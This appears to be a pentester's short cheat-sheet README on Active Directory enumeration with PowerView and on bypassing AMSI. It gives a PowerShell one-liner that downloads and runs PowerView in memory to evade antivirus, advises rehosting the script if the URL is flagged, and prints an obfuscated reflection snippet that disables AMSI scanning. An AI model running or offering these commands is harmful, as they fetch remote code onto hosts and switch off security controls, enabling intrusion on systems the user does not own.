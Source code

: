 # Updates:

| date | name | description | comment | link |
| --- | --- | --- | --- | --- |
| 07/2020 | PowerView | Different tools for enumaration in Active Directory | Active Directory | [PowerView](#powerview) |
| 09/2020 | AMSI bypass | Technique to bypass Antivirus check when executing powershell scripts | AMSI bypass | [AMSI bypass](#amsi-bypass) |


# PowerView

## Using PowerView: 

cheatsheet: https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters/powerview

## Load into memory from remote (to avoid AV detection):

> iex ((New-Object System.Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1"))```
  
**NOTE:** if AV detects the URL, then just host it somewhere on your own
    
## Use something like this syntax:

> Get-NetUser -Filter "(title=Test Developer Junior)" | select name,samaccountname,title,manager

## Avoiding Antivirus:

In case AV prevents executing PowerShell scripts, try to bypass AMSI (https://www.youtube.com/watch?v=yHstFvLwDYM)

---

# AMSI bypass

To check if AMSI is active, type **"amsiutils"** (along with quotes) into the powershell prompt. If it is active, you will see a warning; otherwise, you'll see that word printed out. That way you can check if AMSI bypass was successful.

AV will be triggered by the word **amsiutils**, so it has to be obfuscated in some way. Here is one of the possible solutions:

```powershell
$r =[Ref].Assembly.GetType('System.Management.Automation.Amsi'+'Utils')
$o="4456625220575263174452554847"
$c =[string](0..13|%{[char][int](53+($o).substring(($_*2),2))})-replace " "
$k =$r.GetField($c,'NonPublic,Static')
$k.SetValue($null,$true)
```

---
